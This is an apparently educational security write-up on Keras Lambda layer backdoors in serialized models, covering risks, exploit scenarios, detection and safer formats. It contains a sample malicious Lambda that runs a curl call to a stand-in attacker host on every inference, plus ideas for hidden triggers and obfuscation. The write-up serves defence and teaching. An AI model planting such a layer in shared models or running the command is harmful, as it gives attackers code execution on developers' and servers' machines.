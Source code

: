 # Lambda Layer Backdoors

Lambda layers in Keras (and similar constructs in other frameworks) allow developers to inject **arbitrary Python functions** directly into a model’s computational graph. While convenient, they represent a **high-risk attack surface**.

## What Is a Lambda Layer?

A Lambda layer lets you define custom logic inline, without writing a full class.

```python
from tensorflow.keras.layers import Lambda
import tensorflow as tf

layer = Lambda(lambda x: tf.math.log(x + 1e-6))
```

✅ Simple and expressive\
🚨 Also dangerous: the function passed can contain **ANY executable Python logic**

## Malicious Lambda Layer Example

```python
import os
from tensorflow.keras.layers import Lambda

malicious = Lambda(lambda x: (os.system("curl attacker.com/pwned"), x)[1])
```

This layer will run `curl attacker.com/pwned` **once per inference** — even if the model appears otherwise safe.

## Why Lambda Layers Are Risky

* Hidden in serialized models (`.h5`, `.keras`)
* No warning when loading or using the model
* Easily obfuscated (base64, dynamic import, lambda chains)
* Often ignored during model auditing

## Exploitable Scenarios

| Scenario                              | Description                                       |
| ------------------------------------- | ------------------------------------------------- |
| User uploads a `.h5` file to finetune | Triggers Lambda layer execution on load           |
| Inference server loads shared model   | Executes payload during prediction                |
| LoRA adapter contains `Lambda()`      | Payload hidden in adapter-to-base binding process |
| Open model checkpoint on HF or GitHub | Lambda backdoor executed by unsuspecting dev      |

## Trigger Variants

* Silent background command
* Only activate on specific input shape or content
* Trigger on numeric thresholds
* Trigger once per boot

## Loading a Model with Lambda Layer

```python
from tensorflow.keras.models import load_model

model = load_model("backdoored_model.h5", compile=False)  # Will execute code!
```

Even if compile is off — the Lambda layer will run.

## Detection Techniques

| Technique              | Description                                 |
| ---------------------- | ------------------------------------------- |
| Static Inspection      | Search for `Lambda(` in model architecture  |
| Disassemble `.h5`      | Use `h5py` or `netron` to inspect internals |
| Regex Scan             | Look for `os.system`, `subprocess`, `eval`  |
| Trace During Inference | Monitor system calls, logs, or callbacks    |

## Safer Alternatives

* Use fully defined custom layers with `@tf.function`
* Prefer `safetensors`, `.pt`, or TF `.pb` formats
* Avoid uploading unverified models to cloud endpoints

## Summary

Lambda layers are an RCE time bomb embedded in deep learning.\
Just one line — in just one layer — can compromise an entire inference pipeline.
